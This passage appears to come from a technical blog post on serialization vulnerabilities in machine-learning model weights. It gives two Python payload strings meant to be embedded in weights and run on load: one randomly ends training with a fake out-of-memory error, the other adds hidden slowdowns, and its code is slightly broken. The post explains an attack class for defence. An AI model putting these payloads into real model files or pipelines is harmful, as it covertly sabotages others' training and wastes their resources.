 In the context of ML models, this vulnerability becomes even more concerning. An attacker could modify model weights to include malicious code that executes during model loading. Since model loading is such a common operation - happening during training, evaluation, and deployment - this creates numerous opportunities for exploitation.

## Anatomy of a Model-Based Attack

The TikTok incident provides a masterclass in how serialization vulnerabilities can be exploited to sabotage training processes. Let's break down different types of attacks that can be embedded in model weights, starting with simple examples and building up to more sophisticated ones.

<figure>
    <a href="{{ site.url }}/{{ site.baseurl }}/assets/images/safetensors/trojan.png"><img src="{{ site.url }}/{{ site.baseurl }}/assets/images/safetensors/trojan.png"></a>
    <figcaption><b>Figure 2:</b> <i> Trojan Tensors: Malicious code embedded in model weights</i></figcaption>
</figure>

### Example 1: Basic Training Disruption

Here's a simple example of how malicious code could be embedded to randomly terminate training:

```python
MALICIOUS_CODE_STR = """
import random
import sys

# Randomly terminate training with 25% probability
if random.random() < 0.25:
    sys.exit("Training terminated due to 'Out Of Memory hardware error'")
"""
```

This basic attack might seem obvious in isolation, but when embedded within model weights and triggered during large-scale training, it can be extraordinarily difficult to debug. Engineers might spend weeks investigating hardware issues or cluster instability.

### Example 2: Silent Performance Degradation

A more subtle attack might introduce random delays that make training inefficient without obviously failing:

```python
MALICIOUS_CODE_STR = """
import time
import random
from datetime import datetime

def is_work_hours():
	current_hour = datetime.now().hour
	return 9 <= current_hour <= 17

def continuous_delay():
	while True:
	    time.sleep(random.uniform(0.1, 0.5))

	if is_work_hours(): # delay more during work hours
		time.sleep(3)


delay_thread = threading.Thread(target=continuous_delay, daemon=True) delay_thread.start()
"""
```
